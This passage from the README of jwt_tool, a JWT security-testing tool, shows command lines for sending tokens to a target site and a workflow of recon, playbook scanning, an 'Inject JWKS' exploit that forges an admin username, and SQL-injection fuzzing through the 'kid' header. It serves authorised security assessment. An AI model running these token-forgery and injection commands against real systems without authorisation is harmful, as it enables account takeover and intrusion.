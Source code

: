 ### Sending tokens to a web application
All modes now allow for sending the token directly to an application.  
You need to specify:  
* target URL (-t)
* a request header (-rh) or request cookies (-rc) that are needed by the application (***at least one must contain the token***)
* (optional) any POST data (where the request is a POST)
* (optional) any additional jwt_tool options, such as modes or tampering/injection options  
* (optional) a *canary value* (-cv) - a text value you expect to see in a successful use of the token (e.g. "Welcome, ticarpi")  
An example request might look like this (using scanning mode for forced-errors):  
`$ python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -rh "Origin: null" -cv "Welcome" -M er` 

Various responses from the request are displayed:  
* Response code
* Response size
* Unique request tracking ID (for use with logging)
* Mode/options used

---

## Common Workflow

Here is a quick run-through of a basic assessment of a JWT implementation. If no success with these options then dig deeper into other modes and options to hunt for new vulnerabilities (or zero-days!).  

### Recon:  
Read the token value to get a feel for the claims/values expected in the application:  
`$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw`  

### Scanning:
Run a ***Playbook Scan*** using the provided token directly against the application to hunt for common misconfigurations:  
`$ python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -M pb`  

### Exploitation:
If any successful vulnerabilities are found change any relevant claims to try to exploit it (here using the *Inject JWKS* exploit and injecting a new username):  
`$ python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin` 

### Fuzzing:
Dig deeper by testing for unexpected values and claims to identify unexpected app behaviours, or run attacks on programming logic or token processing:  
`$ python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -I -hc kid -hv custom_sqli_vectors.txt`  
